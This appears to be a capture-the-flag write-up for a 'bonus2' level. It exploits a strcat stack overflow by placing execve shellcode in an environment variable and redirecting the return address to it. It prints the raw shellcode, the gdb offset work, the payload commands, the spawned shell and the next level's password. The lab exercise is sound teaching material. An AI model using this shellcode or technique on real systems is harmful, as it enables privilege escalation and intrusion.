 ## BONUS 2
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---

We're becoming familiar the automatisms to solve these levels. As usual, we start by looking the code. The code is too long to be displayed here, so I will just show the part that is interesting for us. If you want to see that whole code, you can find it [here](./src/bonus2.c).

Now that we understand what this code does. We can start our research to exploit this code.

First we need to find the vulnerabity inside the code. The first thing that I noticed is the `strncpy` and `strcat` calls. Let's take a look to find a potential vulnerability.

```c
int
main (int argc, char **argv) {
	char	buffer[72];
[...]
	strncpy(buffer, argv[1], 40);
	strncpy(&buffer[40], argv[2], 32);
[...]
	greetuser(buffer);
}

void
greetuser (char *user) {
	char	buffer[64];
[...]
	strcat(buffer, user);
[...]
}
```

That's interesting! We have two buffers, and it appears that the `greetuser` function copies a buffer larger than its size. This indicates a potential buffer overflow vulnerability. By examining the code, I can see that the buffer inside the `greetuser` function can be filled up to 85 bytes (72 + 13). Therefore, I can overflow the return value of the `greetuser` function.

Now that we have identified the vulnerability and the target for the buffer overflow, the next step is to consider how to obtain the flag. Since the code does not contain any `system` calls, we will need to use a ShellCode. In this case, we can utilize the same ShellCode that we used in previous levels.

The only question im asking to myself is where to put this ShellCode ?

We have two options:
1. Put the ShellCode inside the first argument.
2. Put the ShellCode inside environment variables.

Let's use the second option because we saw in the bonus0 that running code from stack isn't easy !

First I need to find the distance between the buffer in `greetuser` and it's return address. To do that, I will use the `gdb`.

```bash
(gdb) x/a $ebp+4
0xbffff62c:	0x8048630 <main+263>
(gdb) x/32s $esp
[...]
0xbffff5e0:	 "Hello "
[...]
```

So the distance is 0x4c (76 in decimal). You need to remove 6 because of the "Hello " string.
In my case, I will remove 13 because I will set LANG to `fi` and the buffer will be filled with "Hyvää päivää ".
So the distance is 76 - 13 = 63.

Before to fo further I need to be sure of these numbers.

```shell
(gdb) r `python -c 'print "A"*40'` `python -c 'print "A"*23 + "1234"'`
Starting program: /home/user/bonus2/bonus2 `python -c 'print "A"*40'` `python -c 'print "A"*19 + "1234"'`
(gdb) x/32a $ebp
0xbffff638:	0x41414141	0x34333231	0x41414100	0x41414141
```

Perfect ! Now we can continue.
I need to get the address where is store the environment variables.

```shell
$ export SHELLCODE=$(python -c 'print "\x90"*64 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')

(gdb) x/s *((char **)environ)
0xbffff8b2:	 "SHELLCODE=\220\220\220\220[...]
```

I will add 0x20 to this address to be sure to be inside the NOP operators and skip the variable name.
    
```shell
(gdb) x/s *((char **)environ)+32
0xbffff8d2:	 "\220\220\220\220\220\220[...]
```

Now I can start to build my payload.

```shell
$ python -c 'print "\x90" * 40' > /tmp/payload_part1
$ python -c 'print "\x90" * 23 + "\xd2\xf8\xff\xbf"' > /tmp/payload_part2
$ ./bonus2 `cat /tmp/payload_part1` `cat /tmp/payload_part2`
Hyvää päivää ��������������������������������������������������������������
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
